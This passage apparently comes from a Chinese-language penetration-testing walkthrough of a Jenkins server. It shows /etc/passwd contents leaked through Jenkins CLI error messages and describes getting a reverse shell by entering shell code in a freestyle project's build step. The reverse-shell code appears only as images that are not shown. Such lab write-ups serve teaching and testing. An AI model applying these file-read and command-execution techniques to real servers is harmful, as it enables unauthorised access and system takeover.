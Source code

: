     eder:x:1000:1000:Eder Luiz:/home/eder:/bin/bash: No such agent "eder:x:1000:1000:Eder Luiz:/home/eder:/bin/bash" exists.
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin: No such agent "apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin" exists.
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin: No such agent "mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin" exists.
    polkitd:x:999:997:User for polkitd:/:/sbin/nologin: No such agent "polkitd:x:999:997:User for polkitd:/:/sbin/nologin" exists.
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin: No such agent "sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin" exists.
    halt:x:7:0:halt:/sbin:/sbin/halt: No such agent "halt:x:7:0:halt:/sbin:/sbin/halt" exists.
    nobody:x:99:99:Nobody:/:/sbin/nologin: No such agent "nobody:x:99:99:Nobody:/:/sbin/nologin" exists.
    games:x:12:100:games:/usr/games:/sbin/nologin: No such agent "games:x:12:100:games:/usr/games:/sbin/nologin" exists.
    chrony:x:998:996::/var/lib/chrony:/sbin/nologin: No such agent "chrony:x:998:996::/var/lib/chrony:/sbin/nologin" exists.
    bin:x:1:1:bin:/bin:/sbin/nologin: No such agent "bin:x:1:1:bin:/bin:/sbin/nologin" exists.
    
    ERROR: Error occurred while performing this command, see previous stderr output.
    ```
    
    但是读取不了`/etc/shadow` ,不过我们发现`/etc/passwd`里面存在`eder` 用户，和我们进入后台的用户名一样，我们尝试一下使用`ssh`登录，登陆失败，换条路子走
    

## 利用Jenkins后台反弹shell

- 发现 新建任务里面的构建一个自由风格的软件项目里面可以执行`shell`代码
    
    ![image.png](image%2011.png)
    
- 输入反弹shell代码保存
    
    ![image.png](image%2012.png)
    